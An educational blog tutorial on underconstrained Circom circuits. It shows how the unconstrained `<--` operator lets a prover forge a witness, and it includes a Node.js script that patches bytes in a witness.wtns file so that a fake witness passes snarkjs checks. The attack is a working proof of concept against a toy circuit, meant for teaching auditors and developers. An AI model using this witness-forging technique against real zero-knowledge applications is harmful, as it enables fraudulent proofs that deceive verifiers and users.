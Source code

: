 # Hacking Underconstrained Circom Circuits With Fake Proofs

The `<--` operator in Circom can be dangerous because it assigns values to signals but does not constrain them. But how do you actually ~~exploit~~ write a POC (proof of concept) for this vulnerability?

We will be hacking the following circuit:

```solidity
pragma circom 2.1.8;

template Mul3() {

    signal input a;
    signal input b;
    signal input c;

    signal output out;

    signal i;

    a * b === 1;   // Force a * b === 1
    i <-- a * b;   // i must be equal 1
    out <== i * c; // out must equal c since i === 1
}

component main{public [a, b, c]} = Mul3();
```

Save this circuit as `mul3.circom` (short for multiply three variables).

The circuit seems to force the product of `a` and `b` to be 1, then assigns 1 to `i`.

Finally, `out` is constrained to be `i * c`. Since `i` supposedly can only have the value `1`, then `out` must equal `c`.

The bug here is that the `<--` is not creating a constraint but calculating a value and assigning it to `i`. In reality, `i` can be any value we want, it doesn't have to be `a * b` or `1`.

The exploit involves assigning a value to `i` that is not `a * b === 1`, allowing us to set `out ≠ c`.

To summarize, the circuit writer *expects* `out = c`, but we will violate this assumption. In the current example, no harm is done, but in a real application this could be a problem if it was critical two signals had the same value.

But how to we actually create the exploit?

## Steps to exploit

### Generating a valid proof

To create a proof for a Circom circuit, we first create an `input.json` for the circuit:

```json
{"a": "1", "b": "1", "c": "5"}
```

This will satisfy the circuit:

```javascript
a * b === 1;   // 1 * 1 === 1
i <-- a * b;   // 1 <-- 1 * 1
out <== i * c; // 5 <== 1 * 5;
// out === c as the dev expects
```

We compile the circuit to an r1cs using the following command:

```shell
circom mul3.circom --r1cs --wasm --sym
```

We then generate a witness with the wasm file it created, using `input.json` as the input:

```shell
cd mul3_js/
node generate_witness.js mul3.wasm ../input.json ../witness.wtns
cd ..
```

We can see the witness snarkjs computed for us with the following command:

```shell
snarkjs wtns export json witness.wtns witness.json
cat witness.json
```

![witness.json output](https://static.wixstatic.com/media/935a00_5747a762d4304c3989927f4a236adfc1~mv2.png/v1/fill/w_740,h_364,al_c,lg_1,q_85,enc_auto/935a00_5747a762d4304c3989927f4a236adfc1~mv2.png)

### Witness signal layout

The first entry in the witness vector is always `1`. (This was explained in our [r1cs article](https://www.rareskills.io/post/rank-1-constraint-system) which the reader can consult). The rest of the elements in the vector are the values in the circuit. We can see which element corresponds to which signal by viewing the `input.json`, `mul3.sym`, and the `witness.json` file:

```shell
cat input.json
cat mul3.sym
cat witness.json
```

We show the output and add the labels to the witness.json file below in <span style="color: #c1c146;">yellow</span>:

![witness signal labels](https://static.wixstatic.com/media/935a00_7d0345e1fc664c74a1d1d76f35550120~mv2.png/v1/fill/w_678,h_620,al_c,q_90,enc_auto/935a00_7d0345e1fc664c74a1d1d76f35550120~mv2.png)

To exploit this circuit, we want to assign a value to `i` that causes `out ≠ c`. However, Circom does not give us a mechanism to write directly to signals that are not input signals, and `i` is not an input signal (maybe to make our hack a little harder?). (snarkjs does provide a fullprove api which seems to do this, but this [code has been broken since 2021](https://github.com/iden3/snarkjs/issues/107)).

### Example malicious witness

One such malicious witness:

```javascript
[
    "1",
    "10", // out
    "1",   // a
    "1",   // b
    "5",   // c
    "2"    // i
]
```

This will satisfy the constraints:

```javascript
a * b === 1;   // 1 * 1 = 1
i <-- a * b;   // 2 <-- 1 * 1 is ok because <-- is not a constraint!
out <== i * c; // 10 = 2 * 5;
```

Right now, we have a valid witness which snarkjs will create a proof for:

```shell
snarkjs wtns check mul3.r1cs witness.wtns
```

![snarkjs witness check](https://static.wixstatic.com/media/935a00_7d37546c94a34d6d9f40c8e15fe81cdc~mv2.png/v1/fill/w_740,h_449,al_c,q_85,usm_0.66_1.00_0.01,enc_auto/935a00_7d37546c94a34d6d9f40c8e15fe81cdc~mv2.png)

Our goal is to create a witness file that satisfies the circuit but violates the expected property that `out = c`.

## Understanding the layout of witness.wtns

The `witness.wtns` is a binary file. Unfortunately, as noted above, Circom and snarkjs do not provide an API to take a json witness vector and output a .wtns file. The format of the .wtns file can be determined by looking at the source [code that generates it](https://github.com/iden3/circom_runtime/blob/master/build/main.cjs#L533). However, a quick examination of the binary file is sufficient.

We see in the code linked above that it writes a `Uint8Array` to a file. So let's parse the file as a `Uint8Array` with the following code and print it out:

```javascript
const fs = require('fs');

const filePath = 'witness.wtns';

const data = fs.readFileSync(filePath);

let data_arr = new Uint8Array(data);
console.dir(data_arr, {'maxArrayLength': null});
```

![witness.wtns binary layout](https://static.wixstatic.com/media/935a00_24f0ffb3fec04d978f341cfc5159923f~mv2.png/v1/fill/w_740,h_554,al_c,q_90,usm_0.66_1.00_0.01,enc_auto/935a00_24f0ffb3fec04d978f341cfc5159923f~mv2.png)

Without going into the details of how this `witness.wtns` is formatted, we can still see the values of our witness laid out in the same order as the `witness.json`!

![witness binary values displayed](https://static.wixstatic.com/media/935a00_9f8d17fdab314b9ea83ae08963617e37~mv2.jpeg/v1/fill/w_740,h_395,al_c,q_80,usm_0.66_1.00_0.01,enc_auto/935a00_9f8d17fdab314b9ea83ae08963617e37~mv2.jpeg)

Now we are ready to create a fake witness by overwriting the binary file where the values for these signals `i` and `out` are stored:

```javascript
const fs = require('fs');

const filePath = 'witness.wtns';

const data = fs.readFileSync(filePath);
console.log("Before");
console.dir(data, {'maxArrayLength': null});

data[108] = 10; // `out`
data[236] = 2;  // `i`

console.log("After");
console.dir(data, {'maxArrayLength': null});

fs.writeFileSync('exploit_witness.wtns', data);
```

After running our code to create the fake witness, we can see the values corresponding to `out` and `i` have been altered as planned (the changed bytes are annotated with a <span style="color: Red;">red</span> box, the rest are unchanged):

![highlighting changed bytes in witness.wtns](https://static.wixstatic.com/media/935a00_06cc72c5a445454c9e71ff54bd543f68~mv2.png/v1/fill/w_740,h_1248,al_c,q_90,usm_0.66_1.00_0.01,enc_auto/935a00_06cc72c5a445454c9e71ff54bd543f68~mv2.png)

The code above also writes the file `exploit_witness.wtns` for us, which is simply the array of bytes printed above.

When we verify `exploit_witness.wtns` against the circuit using snarkjs:

```shell
snarkjs wtns check mul3.r1cs exploit_witness.wtns
```

![snarkjs wtns check](https://static.wixstatic.com/media/935a00_81192f33ba3b4f90bf53a623fafc2cae~mv2.png/v1/fill/w_740,h_384,al_c,q_85,usm_0.66_1.00_0.01,enc_auto/935a00_81192f33ba3b4f90bf53a623fafc2cae~mv2.png)

The witness satisfies the circuit!

From here, we can simply follow the [proving steps in the Circom documentation](https://docs.circom.io/getting-started/proving-circuits/#verifying-from-a-smart-contract) to create a fake proof to exploit the circuit.

## Learn more with RareSkills

Please see our [Zero Knowledge Course](https://www.rareskills.io/zk-bootcamp) to learn more topics in ZK.

*Originally Published Mar 18*